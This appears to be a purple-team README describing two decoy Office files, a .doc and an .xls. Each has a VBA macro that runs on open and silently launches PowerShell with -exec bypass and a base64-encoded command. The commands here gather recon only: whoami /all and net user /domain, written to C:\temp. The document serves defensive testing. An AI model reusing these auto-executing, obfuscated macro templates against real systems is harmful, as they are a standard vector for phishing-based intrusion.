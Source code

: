 # Office Macro enabled coudments

## performance_eval_2025.doc

The following macro will execute on document open:

**Encoded Command:**
```powershell
mkdir C:\temp;whoami /all > C:\temp\word_macro_output.txt
```

**VBA Macro:**
```VBA
Private Sub format_document()
MsgBox "Purple Team Test - check 'C:\temp\word_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AHcAaABvAGEAbQBpACAALwBhAGwAbAAgAD4AIABDADoAXAB0AGUAbQBwAFwAdwBvAHIAZABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQA", vbHide)

End Sub
Sub Document_Open()
    format_document
End Sub
Sub AutoOpen()
    format_document
End Sub

```

## budget_surplus_fy25.xls

The following macro will execute on workbook open:

**Encoded Command:**
```powershell
mkdir C:\temp;cmd.exe /c "net user /domain > C:\temp\excel_macro_output.txt"
```

**VBA Macro:**
```VBA
Sub format_workbook()
MsgBox "Purple Team Test - check: 'C:\temp\excel_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiAG4AZQB0ACAAdQBzAGUAcgAgAC8AZABvAG0AYQBpAG4AIAA+ACAAQwA6AFwAdABlAG0AcABcAGUAeABjAGUAbABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQAIgA=", vbHide)

End Sub
Private Sub Workbook_Open()
    format_workbook
End Sub
Private Sub AutoOpen()
    format_workbook
End Sub
```
